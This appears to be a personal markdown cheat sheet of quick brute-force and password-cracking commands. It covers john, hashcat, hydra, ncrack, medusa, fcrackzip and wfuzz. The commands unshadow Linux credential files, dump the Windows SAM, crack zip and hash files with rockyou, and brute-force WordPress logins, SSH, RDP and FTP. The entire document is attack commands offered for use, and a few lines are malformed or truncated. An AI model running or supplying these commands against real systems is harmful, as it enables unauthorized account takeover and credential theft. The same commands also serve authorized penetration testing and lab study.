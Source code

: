 ```yaml
---
tags: 🔻 🔻/🃏 Passwords bruteforce hashcat john wfuzz hydra
aliases: Hacking Notes
---
```


# Quick Brute Force Commands

# ruteforce

#unshadow  
unshadow passwd shadow > creds.txt  
  
#john   
john --wordlist=rockyou.txt creds.txt  
  
  
#fcrackzip  
fcrackzip -u -D -p ‘rockyou.txt’ zip\_file  
  
  
zip2john zip\_file > hash.txt  

john --format=zip hash.txt  

#hydra 

hydra -l username -P password\_list IP\_ADDR -V http-post-form ‘/path/login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location’ -t 25  


#hashcat 
hashcat -a 0 -m hash-mode hash.txt rockyou.txt  
  
python true.py bhaskara > hashes  
john hashes --show  
  
pwdump system sam  
  
unshadow passwd shadow > passwords  
john --wordlist=/usr/share/wordlists/rockyou.txt passwords  
  
#WFUZZ   
wfuzz -c --hl=4 -z range,1-65535 -H ​"Cookie: password=secret" [http://socket?port=FUZZ&cmd=test%27%C2%A0]



# ssh
#ssh 
SSH user with password list  
`hydra -l user -P pass.txt -t` x.x.x.x  
  
hydra -l usere -P list.txt ssh://ip -t 4 -I  
  
hydra -L user.txt -P dict.txt ip ssh -s 65345 -e nsr

# rdp
#rdp 

RDP user with password list  
`ncrack -vv --user offsec -P passwords rdp://`x.x.x.x

# ftp
#FTP 

FTP user with password list  
`medusa -h` x.x.x.x  
  
hydra -l matt -P /usr/share/wordlists/rockyou.txt x.x.x.x

# ncrack
#ncrack

ncrack -vv --user admin -P password-file.txt rdp://ip